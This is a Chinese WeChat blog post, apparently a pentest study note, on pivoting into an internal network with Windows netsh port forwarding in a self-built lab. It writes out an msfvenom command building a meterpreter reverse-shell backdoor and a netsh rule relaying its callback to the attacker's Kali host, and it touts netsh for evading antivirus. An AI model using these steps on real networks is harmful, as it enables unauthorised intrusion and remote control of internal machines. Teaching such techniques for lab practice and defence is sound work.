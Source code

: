 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/91bFqKp-9k4EAjY1nT0lZA)
| 

**声明：**该公众号大部分文章来自作者日常学习笔记，也有少部分文章是经过原作者授权和其他公众号白名单转载，未经授权，严禁转载，如需转载，联系开白。

请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。

 |

授权转载，文章来源：“大余 xiyou” 博客

该篇章目的是重新牢固地基，加强每日训练操作的笔记，在记录地基笔记中会有很多跳跃性思维的操作和方式方法，望大家能共同加油学到东西。

对于所有笔记中复现的这些终端或者服务器，都是自行搭建的环境进行渗透的。我将使用 Kali Linux 作为此次学习的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

**0x01 前言**

在渗透测试中，当我们获得了外网服务器（如 web 服务器，ftp 服务器，mali 服务器等等）的一定权限后发现这台服务器可以直接或者间接的访问内网。  

此时渗透测试进入后渗透阶段后，内网中的其他机器是不允许外网机器访问的。这时候，我们可以通过端口转发 (隧道) 或将这台外网服务器设置成为代理，使得我们自己的攻击机（kali）可以直接访问与操作内网中的其他机器。实现这一过程的手段就叫做内网转发。

在很多时候我们获取到的服务器的权限不够，无法直接登录。如果直接登录服务器中进行操作，我们需要上传工具进行很多操作，如果服务器缺少对应的环境变量或者组件，会导致渗透受阻。而且远程登录会留下比较明显的痕迹 ，因此内网转发是我们最好的选择，在本地进行操作是最方便的！！

**0x02 环境介绍**

攻击设备：kali-2020.4  

外网 IP 地址：192.168.175.145

代理服务器：windows7

外网 IP 地址：192.168.175.175

内网 IP 地址：10.10.1.5

Web 服务器：windows2003

内网 IP 地址：10.10.1.6

外网网关：192.168.175.2

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfOG1lffAex8hwZicF6DPdpRD1jyl9DNicFCjoViazMWUsmQduzC5p9jibx5TF6XYOciafvu1Krav1GsMQ/640?wx_fmt=png)

目前 Web 服务器在内网环境，kali 只能访问代理服务器并拿到了 webshell 提权成功后，由于代理服务器功能权限局限性大，本篇文章讲解在后渗透中常用的一种方法，netsh 来端口转发和端口映射使得攻击者能正常访问内网业务，还会写到配置 Burpsuite 如何对在外网分析内网的 web 业务情况！

**0x03 netsh 端口映射**

netsh 是 windows 系统自带的一个命令行工具，这个工具可以内置中端口转发功能。那么将利用 windows 自带的端口转发 netsh interface portproxy 通过这个小工具在代理服务器设置端口转发！

**1、windows7 代理服务器操作**

这里新建个端口映射，以及查看转发规则建立成功！

```
netsh interface portproxy add v4tov4 listenport=绑定的端口 connectaddress=被攻击者服务器ip connectport=被攻击者服务端口
netsh interface portproxy show all    #查看转发规则
```

‍

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfOG1lffAex8hwZicF6DPdpRLZtBJqsc09ECUdyxupMZ7Dg0tuCo86FoML6hYmia2yN2XUCIYZDubgQ/640?wx_fmt=png)

**2、netsh 成功转发**

可看到成功通过端口转发外网攻击者 kali 成功通过浏览器访问到了内网 web 服务器业务页面！

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfOG1lffAex8hwZicF6DPdpRxCA0b6aKS2WJMKmA6vtBKjDaLu4puOu9rHADwKhRrhu9EvXgoG62Cw/640?wx_fmt=png)

**3、Burpsuite 配置分析 web 业务**

首先需要下载一个 FoxyProxy 火狐插件，或者是 google 的 Proxy SwitchyOmega 两个非常好用的代理插件！主要因为顺手，当然还可以在 IE、火狐上设置全局代理也可以！

这里我不过多介绍怎么简单设置代理了，我前面的文章都介绍过了，开始！很简单设置代理：

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfOG1lffAex8hwZicF6DPdpRwCeyBu0PFloRJIicCd2Ef8bE8zqwylWicCx8xJTRIFgdgUMBfeibUwUhA/640?wx_fmt=png)

可看到成功在外网 kali 利用 bp 抓包分析内网业务… 很简单吧~。但是这种无法穿透防火墙拦截… 下面将介绍 netsh 如何反向操作无视防火墙！

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfOG1lffAex8hwZicF6DPdpRDXhM3ph7yOZuwhCCz6Na2ibdOUlzrLzicrAiaFcmZbel4EUQXd91Im0iaw/640?wx_fmt=png)

**0x04 netsh 端口转发**

通过（三）我们获得了访问内网 web 服务器业务后，因为目前只能通过访问 web，无法通过外网电脑控制内网电脑，如何继续横向或者是在 kali 上拿到一个内网 web 服务器的 shell 权限来控制电脑呢？

接下来我演示该思路来突破在外网电脑无法连接内网电脑的情况下，通过代理服务器也能直接拿到内网电脑的 shell 权限！

**1、MSF 生成后门**

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.5 lport=6666 -f exe > dayu.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfOG1lffAex8hwZicF6DPdpRCzI8wRRoub6iaO6iajoCS7IVrvibu7ETpVicBPFb1GscODp353Oic624f8g/640?wx_fmt=png)

**2、netsh 端口转发**

将连接本地端口 6666 转发到指定端口 6666！

```
netsh interface portproxy add v4tov4 listenport=6666 connectaddress=192.168.175.145 connectport=6666
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfOG1lffAex8hwZicF6DPdpR1pS8wAxOs9XcAOKBSMgwXLCOP71FOd2eJcWByZqvNS0puX47c5GTYQ/640?wx_fmt=png)

**3、外网 kali 设置 MSF 监听**

这最基础的了，就带过了~

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfOG1lffAex8hwZicF6DPdpRHZeP6s871jicmXZLp5jTdPaXSOwiaIVv1JcqeZXDwnnj6w8NAVuFAAqA/640?wx_fmt=png)

**4、****成功拿 shell**

这里成功在外网 kali 上拿到了内网控制权限，可进行任意操作了！

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfOG1lffAex8hwZicF6DPdpRe4ve0e9MYcSwuGouf7kO8qjiaf9BDgWu7c5za0ibBpXib4T1oD84M4bgg/640?wx_fmt=png)

**5、****常用命令**

针对 netsh 转发常用命令：

```
根据端口清除规则指定规则：
netsh interface portproxy delete v4tov4 listenport=7777

查看转发规则：
netsh interface portproxy show all

清除所有规则：
netsh interface portproxy reset
```

‍

**0x05 总结**

端口映射与端口转发，用于发布防火墙内部的服务器或者防火墙内部的客户端计算机，有的路由器也有端口映射与端口转发功能。端口映射与端口转发实现的功能类似，但又不完全一样。

端口映射是将外网的一个端口完全映射给内网一个地址的指定端口，而端口转发是将发往外网的一个端口的通信完全转发给内网一个地址的指定端口。端口映射可以实现外网到内网和内网到外网双向的通信，而映射转发只能实现外网到内网的单向通信！！

这只是讲解了一个简单的内网穿透思路，由于 netsh 是 windwos 自带的，所以自带免杀功能！！非常的实用！！看完的小伙伴如果会的也操作一遍吧！

今天基础牢固就到这里，虽然基础，但是必须牢记于心。  

只需关注公众号并回复 “9527” 即可获取一套 HTB 靶场学习文档和视频，“1120” 获取安全参考等安全杂志 PDF 电子版，“1208” 获取个人常用高效爆破字典，“0221” 获取 2020 年酒仙桥文章打包，还在等什么？赶紧关注学习吧！

* * *

**推 荐 阅 读**

  

  

  

[![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf8eyzKWPF5pVok5vsp74xong5AN4sVjsv6p71ice1qcHHQZJIZ09xK3lQgJquhqTLfoa9qcQ7cVYw/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247486401&idx=1&sn=1104aa3e7f2974e647d924dfde83e6af&chksm=cfa6afd2f8d126c47d81afd02f112daea41bce45305636e3bba9a67fbdcf6dbd0e88ff786254&scene=21#wechat_redirect)

[![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf8eyzKWPF5pVok5vsp74xolhlyLt6UPab7jQddW6ywSs7ibSeMAiae8TXWjHyej0rmzO5iaZCYicSgxg/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247486327&idx=1&sn=71fc57dc96c7e3b1806993ad0a12794a&chksm=cfa6af64f8d1267259efd56edab4ad3cd43331ec53d3e029311bae1da987b2319a3cb9c0970e&scene=21#wechat_redirect)

[![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfUDrsHTbibHAhlaWGRoY4yMzOsSHefUAVibW0icEMD8jum4JprzicX3QbT6icvA6vDcyicDlBI4BTKQauA/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247484585&idx=1&sn=28a90949e019f9059cf9b48f4d888b2d&chksm=cfa6a0baf8d129ac29061ecee4f459fa8a13d35e68e4d799d5667b1f87dcc76f5bf1604fe5c5&scene=21#wechat_redirect)

**欢 迎 私 下 骚 扰**

  

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/XOPdGZ2MYOdSMdwH23ehXbQrbUlOvt6Y0G8fqI9wh7f3J29AHLwmxjIicpxcjiaF2icmzsFu0QYcteUg93sgeWGpA/640?wx_fmt=jpeg)